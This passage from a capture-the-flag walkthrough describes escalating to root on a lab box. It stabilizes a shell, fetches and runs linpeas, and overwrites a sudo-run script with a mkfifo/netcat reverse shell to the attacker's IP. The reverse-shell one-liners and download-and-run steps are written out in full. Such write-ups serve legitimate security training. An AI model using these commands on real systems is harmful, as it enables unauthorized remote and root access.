 ## Find the Loot ##

Now that we have a reverse shell lets stabilize the shell. John gave an awesome resource for this in his video of [netsec](https://netsec.ws/?p=337). Let's go ahead and do this. You can use the method John used in his video, which is new to me.
```
/usr/bin/script -qc /bin/bash /dev/null
```

Alright we have a TTY shell now. Let's see about using OSCP's favorite tool [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). One common way I've seen it is to run a http server with python on your host box and ```wget``` the file on your target machine. Navigate to where your ```linpeas.sh``` file is and fire up the python server.
```
python3 -m http.server 80
```
That will start your websever. Now lets get that precious linpeas file.
```
wget 10.2.40.5/linpeas.sh
```
We will need to make that executeable so.
```
chmod +x linpeas.sh
```
Simple enough now lets run it.
```
./linpeas.sh
```
This colorful output is just awesome. Remember that red is your friend.

Linpeas points out that you can run sudo on a file in the ```/home/itguy``` directory so lets go over to that directory and look.
```
cd /home/itguy
```
When you type ```ls``` in the directory you get a nice gift of a user.txt file. Claim your flag.

Now we need to look up that ```backup.pl``` file because we can run that as sudo with no password. Thank you linpeas.
```
cat backup.pl
```
This is a pearl file that runs a shell on ```/etc/copy.sh```

Lets take a look at that file now.
```
cat /etc/copy.sh
```
Alright we are greeted with.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/
```
A reverse shell inside a reverse shell. This is revshellception. Lets make this our own, so we can get an elevated reverse shell. We will have to choose a different port, so I chose port 9100.

I had an issue with trying to fire up nano like John did in his video so I took a different approach. Since I can still write to it, and I am not trying to preserve any information I just used ```echo```.
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.40.5 9100 >/tmp/f" > /etc/copy.sh
```
Make sure your IP and port is correct by using cat.
```
cat /etc/copy.sh
```
You should see your information now. Lets take that linpeas information to run sudo on the pearl script without using a password.
```
sudo /usr/bin/perl /home/itguy/backup.pl
```